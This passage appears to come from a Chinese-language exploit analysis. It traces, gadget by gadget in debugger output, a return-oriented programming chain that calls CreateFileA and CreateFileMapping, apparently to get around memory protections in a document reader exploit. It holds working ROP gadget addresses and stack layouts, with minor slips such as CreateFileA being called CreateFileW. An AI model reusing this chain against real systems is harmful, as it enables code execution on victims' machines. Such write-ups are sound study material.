 接下来程序将依次执行下面的 gadgets：

```text
4A8063A5    59              pop ecx         ; esp = 0C0C0C14, ecx = 4A8A0000
4A8063A6    C3              retn            ; esp = 0C0C0C18, eip = 4A802196
```

```text
4A802196    8901            mov dword ptr ds:[ecx],eax
4A802198    C3              retn            ; eip = 4A801F90
```

```text
4A801F90    58              pop eax         ; eax = 4A84903C <&KERNEL32.CreateFileA>
4A801F91    C3              retn            ; esp = 0C0C0C24, eip = 4A80B692
```

```text
4A80B692  - FF20            jmp dword ptr ds:[eax]                   ; kernel32.CreateFileA
```

调用函数 `kernel32.CreateFileW` 创建文件，各参数如下所示：

```text
0C0C0C04   7FFDFC00  |FileName = "iso88591"
0C0C0C08   10000000  |Access = GENERIC_ALL
0C0C0C0C   00000000  |ShareMode = 0
0C0C0C10   00000000  |pSecurity = NULL
0C0C0C14   00000002  |Mode = CREATE_ALWAYS
0C0C0C18   00000102  |Attributes = HIDDEN|TEMPORARY
0C0C0C1C   00000000  \hTemplateFile = NULL
```

然后通过同样的方法调用 `CreateFileMapping`：

```text
4A8063A5    59              pop ecx         ; esp = 0C0C0C4C, ecp = 4A801064
4A8063A6    C3              retn            ; esp = 0C0C0C50, eip = 4A842DB2
```

```text
4A842DB2    97              xchg eax,edi
4A842DB3    C3              retn            ; esp = 0C0C0C54, eip = 4A802AB1
```

```text
4A802AB1    5B              pop ebx         ; esp = 0C0C0C58, ebx = 00000008
4A802AB2    C3              retn            ; esp = 0C0C0C5C, eip = 4A80A8A6
```

```text
4A80A8A6    213C5C          and dword ptr ss:[esp+ebx*2],edi
4A80A8A9    75 03           jnz short icucnv36.4A80A8AE
4A80A8AB    B0 01           mov al,0x1
4A80A8AD    C3              retn
```

```text
4A80A8A6    213C5C          and dword ptr ss:[esp+ebx*2],edi
...
4A80A8C8    32C0            xor al,al
4A80A8CA    C3              retn            ; esp = 0C0C0C60, eip = 4A801F90
```
